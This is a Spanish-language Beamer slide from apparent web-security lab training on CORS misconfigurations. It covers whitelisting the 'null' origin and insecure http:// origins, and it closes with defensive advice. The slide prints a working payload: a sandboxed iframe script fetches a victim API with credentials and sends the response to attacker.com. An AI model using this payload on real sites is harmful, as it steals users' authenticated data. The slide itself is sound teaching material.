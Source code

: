 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{CORS --- Origen null y Protocolos Inseguros}
\small
  \begin{itemize}
  \item CORS
  \item Lab 94 --- Origen null en la whitelist
  \item El header Origin vale 'null' en: iframes sandbox, data: URLs, file:// y redirects cross-origin.
  \item Si el servidor confía en null: Access-Control-Allow-Origin: null
  \item El atacante usa un iframe sandbox para generar Origin: null y leer la respuesta:
  \item \cmd{\textless{}iframe sandbox='allow-scripts allow-top-navigation allow-forms'}
  \item \cmd{srcdoc=\textquotedbl{}\textless{}script\textgreater{}}
  \item \cmd{fetch('https://victim.com/api/data', \{credentials:'include'\})}
  \item \cmd{.then(r=\textgreater{}r.text()).then(d=\textgreater{}location='https://attacker.com/?d='+d);}
  \item \cmd{\textless{}/script\textgreater{}\textquotedbl{}\textgreater{}}
  \item \cmd{\textless{}/iframe\textgreater{}}
  \item Labs 95-96 --- Protocolo inseguro en la whitelist
  \item El servidor confía en http://trusted.com (HTTP, sin TLS).
  \item El atacante en posición MITM intercepta la petición HTTP a trusted.com
  \item e inyecta una respuesta con el payload CORS.
  \item Resultado: el navegador cree que la petición viene de un origen confiable.
  \item $\rightarrow$ Subdominios HTTP de la whitelist son un vector frecuente en entornos reales.
  \item Nunca incluir 'null' ni URLs http:// en la whitelist de CORS.
  \end{itemize}
\end{frame}
\end{document}
